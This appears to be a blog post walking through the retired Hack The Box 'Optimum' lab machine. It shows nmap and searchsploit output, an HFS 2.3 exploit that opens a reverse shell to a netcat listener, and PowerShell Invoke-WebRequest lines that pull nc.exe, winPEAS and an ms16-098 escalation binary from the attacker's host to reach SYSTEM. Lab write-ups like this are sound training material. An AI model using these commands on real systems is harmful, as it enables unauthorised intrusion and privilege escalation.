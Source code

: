 ```yaml
---
layout: post
title:  "HTB-Optimum"
date:   2020-02-17 00:01:57 +0000
categories: HTB-Walkthrough
---
```


![optimum](/assets/img/optimum.png)

Optimum is another OSCP-like box from the HTB 'retired' archive.


`nmap -sV -Pn --min-rate 10000 10.10.10.8 |tee -a opt.txt`

{% highlight ruby %}
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-25 11:51 EST
Nmap scan report for 10.10.10.8
Host is up (0.092s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
{% endhighlight %}

`searchsploit hfs 2.3`

{% highlight ruby %}
----------------------------------------------------- ----------------------------------
 Exploit Title                                       |  Path
                                                     | (/opt/exploitdb/)
----------------------------------------------------- ----------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary F | exploits/multiple/remote/30850.tx
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remo | exploits/windows/webapps/34852.tx
----------------------------------------------------- ----------------------------------
{% endhighlight %}

We'll check out the python script, `searchsploit -m 39161.py` will copy the exploit to the pwd.
...looks promising...

{% highlight ruby %}
python 39161.py 10.10.10.8 80
{% endhighlight %}

we get user shell...to our nc listener on port 443.

{% highlight ruby %}
root@kali:~/HTB/retired/optimum# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.8] 49172
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

31/01/2020  03:52 ��    <DIR>          .
31/01/2020  03:52 ��    <DIR>          ..
31/01/2020  03:21 ��    <DIR>          %TEMP%
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               3 Dir(s)  31.898.783.744 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0xxxxxxxxxxxxxxxxxxxxxx73
{% endhighlight %}


#########################

User flag down, now we need to privesc to get the root.txt flag.

use `powershell iwr -uri http://10.10.14.19/nc.exe -outfile .\nc.exe`
do the same for winPEAS.bat

run `winPEAS.bat > enum.txt` then send enum.txt via nc.

do `systeminfo`
copy output and paste to kali machine.

try [winddows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

The resulting output is voluminous, so I won't paste it all here...
I selected ms16-098 and downloaded the exploit from github...

served it with `python3 -m http.server 80`
I used the IWR (Invoke-WebRequest)powershell command to move the file into my boo folder on the target.

{% highlight ruby %}
C:\boo>powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe
powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe
{% endhighlight %}

So just run it....

{% highlight ruby %}
C:\boo>c:\boo\b.exe
c:\boo\b.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\boo>whoami
whoami
nt authority\system
{% endhighlight %}

From here we can just grab the root.txt flag...

{% highlight ruby %}
C:\Users\Administrator\Desktop>type root.txt
type root.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxxed
{% endhighlight %}

:)



